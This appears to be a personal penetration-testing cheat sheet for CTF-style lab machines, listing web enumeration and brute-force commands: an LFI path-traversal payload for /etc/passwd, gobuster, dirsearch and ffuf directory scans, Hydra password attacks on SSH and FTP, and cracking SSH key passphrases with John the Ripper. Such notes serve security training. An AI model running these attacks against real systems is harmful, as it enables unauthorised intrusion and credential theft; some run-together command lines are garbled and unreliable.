 # Web

## Source
View source files

## Robots
Open robots.txt

## LFI
Try to open  ../../../../../etc/passwd
http://target/item?id=../../../../../etc/passwd

## Common extensions
- /usr/share/dirb/wordlists/extensions_common.txt
- /usr/share/wordlists/wfuzz/general/mutations_common.txt
- html
- phtml
- txt
- asp
- aspx
- js

## Common start pages
- /usr/share/dirb/wordlists/indexes.txt
- index
- default
- home

## Web path discovery

### Common word lists
- cewl -w wordlist.txt -d 2 -m 5 $target

- /usr/share/wordlists/
- /usr/share/dirb/wordlists/common.txt
- /usr/share/dirb/wordlists/bigxt
- /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
- /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
- /usr/share/wordlists/wfuzz/general/megabeast.txt


/usr/share/wordlists/rockyou.txt

### Gobuster
```
gobuster dir -u http://$target -w /usr/share/dirb/wordlists/common.txt -t 100 -o $target_name.dir.txt
gobuster dir -u $target -w /usr/share/dirb/wordlists/common.txt -x .php,.txt,.html -t 100 -o $target_name.file.txt
gobuster dir -u http://10.10.10.157/centreon/api -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -t 40 -x .php,.txt,.html

```


### dirb
```
dirb $target
```

###  dirsearch

```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
pip3 install -r requirements.txt
python3 dirsearch.py -u <URL> -e <EXTENSIONS>

Usage: dirsearch.py [-u|--url] target [-e|--extensions] extensions [options]

python3 dirsearch.py -u $target -e php,html,txt port80

python3 dirsearch.py -e php,html,js -u https://target

python3 dirsearch.py -e php,html,txt,js -u https://target -w /path/to/wordlist



```

## dirsearch recursive
python3 dirsearch.py -e php,html,js -u https://target -r


## ffuf
ffuf -c -w letters -u http://10.10.21.10 -H "User-Agent: FUZZ"




enum4linux $ip


## Hydra


hydra -l <username> -P /usr/share/wordlists

hydra -l <username> -P locks.txt 10.10.130.81 ssh

hydra -t 4 -l jan -P <rockyou.txt directory> ssh://<MACHINE IP>

hydra -f -I -vV -t 64 -l lin -P ./locks.txt $TARGET ssh

hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.133.186



## rockyou
```
sudo gunzip /usr/share/wordlists/rockyou.txt.gzwc -l /usr/share/wordlists/rockyou.txt
```

## ssh_key
```
chmod 600 ssh_key
ssh -i ssh_key username@$target
```
# Create some private key
ssh-keygen -t rsa -b 4096# Create encrypted zip
/usr/sbin/ssh2john ~/.ssh/id_rsa > id_rsa.hash



python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash


Cracking everything with John the Ripper
https://bytesoverbombs.io/cracking-everything-with-john-the-ripper-d434f0f6dc1c




